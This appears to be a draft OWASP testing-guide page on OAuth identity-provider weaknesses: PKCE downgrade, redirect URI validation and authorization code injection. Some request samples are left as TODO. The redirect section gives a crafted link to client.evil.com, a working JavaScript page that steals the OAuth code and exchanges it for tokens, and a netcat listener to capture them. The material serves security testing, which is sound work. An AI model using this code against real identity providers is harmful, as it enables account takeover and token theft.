 # Testing OAuth IdP Weaknesses

|ID            |
|--------------|
|WSTG-ATHZ-05.1|

## Summary

OAuth stores the identities of users and the correspondent access rights at the IdP (Identity Provider). The IdP does play a crucial role during the OAuth flow as it grants access to clients. To be able to do that it must properly validate parameter which are part of the OAuth flows and the token exchange.

Failure to validate the paramaters may lead to  account takeover, unauthorized ressource access and the elevation of privileges.

## Test Objectives

- Retrieve credentials used for authorization
- Grant yourself access to arbitrary ressources trough forcefull browsing
- Bypass the authorization

## How to test

### PKCE Downgrade Attack

Under certain circumstances the PKCE extension can be removed from the authorization code flow. This has the potential to leave public clients vulnerable to attacks mitigated by the PKCE extension.

- The authorization server does not support PKCE
- The authorization server does not properly validate PKCE

Both can be tested with a proxie tool like OWASP ZAP. An attacker may start the OAuth flow and remove  the `code_challenge=sha256(xyz)` parameter from the request.

Original Request:

```http
TODO
```

Modified Request:

```http
TODO
```

### Testing for insufficient Redirect URI Validation

The OAuth flow makes use of a `redirect_uri` in the authoritation request. If this uri is not properly validated a link can be crafted that contains a attacker controlled URL, `client.evil.com` in this example.

- `
https://idp.example.com/auth/realms/example/protocol/openid-connect/auth?client_id=app-angular2&redirect_uri=http%3A%2F%client.evil.com%2Fapp-angular2%2F&state=19abbae7-79cb-4e82-8ea1-897d98251f4e&response_mode=fragment&response_type=code&scope=openid&nonce=636db683-18ba-4c92-a56f-a7f7ccd772ce HTTP/1.1
`

If a user opens the link in the user-agent, the IdP will redirect the user agent to the spoofed URL.
The attacker can host a script on the spoofed URL that captures the `code` value and submits it back to the IdP's token endpoint.  

This can be archived with the following sample code hosted at the attacker controlles server.
Note: This JavaScript is compatible with Keycloak IdPs, other IdPs may need tweaking of the requests.
Furthermore the attack will fail when the IdP has CORS configured and blocks cross-origin requests.

If CORS is configured a setup involving server side technologies such as a python app, that allow the spoofing of the origin header, are required.

```JavaScript
<html>
    <body>
    <head>
        <title>OAuth open redirects</title>
    </head>
<h3>OAuth code: </h3>

<p id="code"></p>

<script>

    var hash = location.hash.substring(1);

    var result = hash.split('&').reduce(function (res, item) {
    var parts = item.split('=');
    res[parts[0]] = parts[1];
    return res;
    }, {});

    var code = result.code
    document.getElementById("code").innerHTML = "The code got phished: " + code;

    function submitStep1()
       {
        var step1 = new XMLHttpRequest();
        step1.open("GET", "http:\/\/idp.example.com\/auth\/realms\/example\/protocol\/openid-connect\/3p-cookies\/step1.html", true);
        step1.setRequestHeader("Accept", "*\/*");
        step1.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        step1.send(new Blob([aBody]));
       }


    function submitStep2()
       {
        var step2 = new XMLHttpRequest();
        step2.open("GET", "http:\/\/idp.example.com\/auth\/realms\/example\/protocol\/openid-connect\/3p-cookies\/step2.html", true);
        step2.setRequestHeader("Accept", "*\/*");
        step2.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        step2.send(new Blob([aBody]));
       }
    submitStep1();
    submitStep2();


    function submitRequest()
       {
         var xhr = new XMLHttpRequest();
         xhr.open("POST", "https:\/\/idp.example.com\/auth\/realms\/example\/protocol\/openid-connect\/token", true);
         xhr.setRequestHeader("Content-type", "application\/x-www-form-urlencoded");
         xhr.setRequestHeader("Accept", "*\/*");
         xhr.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
         xhr.withCredentials = true;
         var body = "code=" + code + "&grant_type=authorization_code&client_id=app-angular2&redirect_uri=http%3A%2F%2Fclient.evil.com%2Fapp-angular2%2F";
         var aBody = new Uint8Array(body.length);
         for (var i = 0; i < aBody.length; i++)
           aBody[i] = body.charCodeAt(i);
         xhr.send(new Blob([aBody]));
       }
    </script>

    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
    </body>
</html>
```

On the attacker server open a netcat listener to capture the response with the access token

```bash
nc -l -p 443
```

When the IdP validates the `code` the attacker can capture the `access_token` and `refresh_token` and therefore retrieves all rights that are assigned to the `access_token`.

### Authorization Code Injection

During the Authorization Code flow's code exchange a code is issued by the authorization server to the client
and later exchanged against the token endpoint to retrieve authorization and refresh token.

Conduct the following tests against the authorization server:

- send a valid code for another client_id
- send a valid code for another redirect_uri
- resend the code (code replay)

The request which is send towards the token endpoint contains the code as it is exchanged against the token.
Capture this request with a proxie tool like OWASP ZAP and resend the request with the tampered values.

```http
POST /auth/realms/example/protocol/openid-connect/token HTTP/1.1
Host: idp.example.com
[...]
code=26a07de1-3a69-4f8d-b131-5e3b57538ad0.15133397-373d-4526-8230-c29db9291cfb.622460b9-0522-4251-b300-1d2e71c89e41&grant_type=authorization_code&client_id=app-angular2&redirect_uri=http%3A%2F%client.example.com%2Fapp-angular2%2F
```


## Related Test Cases

- [CORS](xxx.md)
- [CSRF](xxx.md)
- [Open Redirect](xxx.md)
- [JWT](xxx.md)
- [Clickjacking](xxx.md)

## Remediation

Most of the attacks against OAuth IdPs can be mitigated by validating the existence and content of paramaters during the code and token exchange.

Retricting the timespand and allowed usage for credentials like authorization code and refresh token sucessfully thwarts some attacks and limits the use of such credentials for an attacker.

Proper configuration of security mitigations like CORS, anti CSRF token and anti-clickjacking headers can limit the impact of attacks, makes them harder to accomplish and for some completely mitigates them.

- Always validate if all parameters are present and their values. 
- Do not allow fallback for security features like the PKCE extension.
- Restrict the lifetime of credentials
- Use credentials only once where possible e.G the authorization code
- Configure available security mitigation like CORS, anti CSRF token and anti Clickjacking headers.

## Tools

- BurpSuite
- OWASP ZAP

## References
- [User Authentication with OAuth 2.0](https://oauth.net/articles/authentication/)
- [The OAuth 2.0 Authorization Framework](https://datatracker.ietf.org/doc/html/rfc6749)
- [The OAuth 2.0 Authorization Framework: Bearer Token Usage](https://datatracker.ietf.org/doc/html/rfc6750)
- [OAuth 2.0 Threat Model and Security Considerations](https://datatracker.ietf.org/doc/html/rfc6819)
- [OAuth 2.0 Security Best Current Practice](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics-16)
- [Authorization Code Flow with Proof Key for Code Exchange](https://auth0.com/docs/authorization/flows/authorization-code-flow-with-proof-key-for-code-exchange-pkce)
